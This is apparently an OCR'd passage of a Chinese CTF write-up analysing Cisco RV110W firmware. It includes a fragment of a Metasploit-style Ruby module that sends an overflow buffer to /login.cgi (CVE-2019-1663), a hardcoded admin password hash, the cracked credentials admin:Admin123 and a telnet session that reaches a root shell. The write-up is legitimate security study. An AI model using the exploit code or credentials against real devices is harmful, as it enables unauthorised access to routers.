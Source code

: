 ```ruby
        cmd
      shellcode
    end
  end

  def send_request(buffer)
    begin
      send_request_cgi({
        'uri'     => '/login.cgi',
        'method'  => 'POST',
        'vars_post' => {
              "submit_button": "login",
              "submit_type": "",
              "gui_action": "",
              "wait_time": 0,
              "change_action": "",
              "enc": 1,
              "user": rand_text_alpha_lower(5),
              "pwd": buffer,
              "sel_lang": "EN"
          }
      })
```


找到分析文章：

- [CVE-2019-1663 Cisco 的多个低端设备的堆栈缓冲区溢出漏洞分析](https://paper.seebug.org/1039/)
- [补丁也不好使，CVE-2019-1663漏洞利用仍然在继续](https://zhuanlan.zhihu.com/p/58444033)
- [深入分析CVE-2019-1663漏洞](https://www.4hou.com/posts/7Dw8)
 
虽然本洞与此题无关，不过可以知道是strcpy引发的栈溢出

#### CVE-2020-3330（telnet弱口令）

找到了对CVE-2020-3330分析的文章：[一个字节的差错导致Cisco防火墙路由器远程代码执行](https://blogs.360.cn/post/yi-ge-zi-jie-cha-cuo-dao-zhi-Cisco-fang-huo-qiang-lu-you-qi-yuan-cheng-dai-ma-zhi-xing.html)

![image](https://xuanxuanblingbling.github.io/assets/pic/cisco/pass.png)

由于这里打码，我们直接在固件里全局搜一下`aUzX1I`，发现一堆文件matches，不过发现大部分文件都是软连接，指向`sbin/rc`，故直接看一下这个文件：

```bash
➜  strings sbin/rc | grep "admin:\\\$"
echo 'admin:$1$aUzX1IiE$x2rSbqyggRaYAJgSRJ9uC.:15880:0:99999:7:::' > /etc/shadow
```

hashcat或者cmd5可知用户名密码为：`admin:Admin123`，尝试登陆可以成功：

```bash
➜ telnet 192.168.1.1   
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.
RV110W login: admin
Password: 


BusyBox v1.7.2 (2019-04-22 16:08:01 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# 
```
